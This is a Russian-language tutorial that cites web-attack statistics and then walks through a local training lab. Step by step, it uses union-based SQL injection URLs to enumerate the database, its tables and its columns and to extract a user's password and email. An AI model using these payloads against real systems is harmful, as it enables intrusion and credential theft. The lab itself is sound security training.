32% от всех атак на организации начинаются с эксплуатации уязвимостей в веб-ресурсах на периметре. В атаках на госучреждения этот показатель достигает 36%.

Недостатки контроля доступа (Broken Access Control) — 26%
Инъекции (включая SQLi, Command Injection) — 19%
Межсайтовый скриптинг (XSS) — 14%
Использование компонентов с известными уязвимостями — 12%
Организации в России и СНГ (госсектор, промышленность, финансы).
Отчет за 3-ий квартал 2025 года Веб-атаки составляют 24% от всех критических инцидентов, зафиксированных в коммерческом секторе РФ.
CWE-89: внедрение SQL-кода (SQL-инъекция) — 14%
CWE-79: недостаточная нейтрализация ввода при формировании веб-страницы (XSS) — 17.8%
CWE-434: неограниченная загрузка файлов опасного типа — 5.8%
CWE-639: обход авторизации через управляемый пользователем ключ (IDOR) — 5.4%

Российский крупный бизнес и IT-компании.
Эксплуатация уязвимостей как вектор начального доступа (Initial Access) выросла на 34% и достигла 20% от всех взломов.
Exploitation of Vulnerabilities: Рост популярности метода как вектора входа составил 34% год к году.
SQL-инъекции (SQLi): Несмотря на снижение в общем объеме кода, они по-прежнему составляют ~12% от всех критических находок в веб-приложениях по данным партнеров (Edgescan).
CWE-89 (Improper Neutralization of Special Elements used in an SQL Command): Занимает 1-е место по потенциальному ущербу (Impact) среди всех типов инъекций.
Глобальный охват. Основной тренд 2025 года
Для выполнения запросов воспользуюсь программой
Postman
В директории с docker-compose.yaml
Вводим команду
docker compose up -dВ браузере открываем по адресу http://localhost:8080

Далее нажимаем
Установить/сбросить базу --> Приступить к выполнению заданий

В query-параметр id будем записывать инъекцию
Отправляем запрос с ошибкой в синтаксисе
http://localhost:8080/task/?id=' OR o=1По ответу выясняем, что БД - MySQL.

При помощи Union и select database()
выясняем базу, к которой есть подключение
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT database(), null, null -- 0=1 - условие, чтобы первый запрос ничего не вернул.
Подбираем количество null во втором запросе. Пониманием, что первый
запрос возвращает 3 колонки, чтобы подогнать под Union

При смене колонок, понимаем, что выходные поля - первые две колонки соответственно
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT 'addwa', database(), 'dadaa' -- 
Для MySQL таблицы разполагаются в таблице
information_schema.tables
При помощи Limit и offset достаем таблицы
по одной
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT table_name, null, null FROM information_schema.tables WHERE table_schema = database() LIMIT 1 OFFSET 0 -- http://localhost:8080/task/?id=' OR 0=1 UNION SELECT table_name, null, null FROM information_schema.tables WHERE table_schema = database() LIMIT 1 OFFSET 1 -- 
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT table_name, null, null FROM information_schema.tables WHERE table_schema = database() LIMIT 1 OFFSET 2 -- 
Итого: 2 таблицы - users и emails
Информация о колонках таблицы хранится в таблице
information_schema.columns в колонке
column_name
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT table_name, column_name, null FROM information_schema.columns WHERE table_name = 'users' LIMIT 1 OFFSET 0 -- 
Аналогично смещая offset находим колонки для обеих
таблиц
Достаем запросом пароль - Wa spoiuuuuu
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT id, password, null from users where username = 'Volk2' -- 
Джойним две таблицы по айди и получаем почту
honey_lover@otus-lab.comhttp://localhost:8080/task/?id=' OR 0=1 UNION SELECT 1 as id, email_id as username, null from users join emails on emails.id = users.id where users.username = 'Vinni-pukh' -- 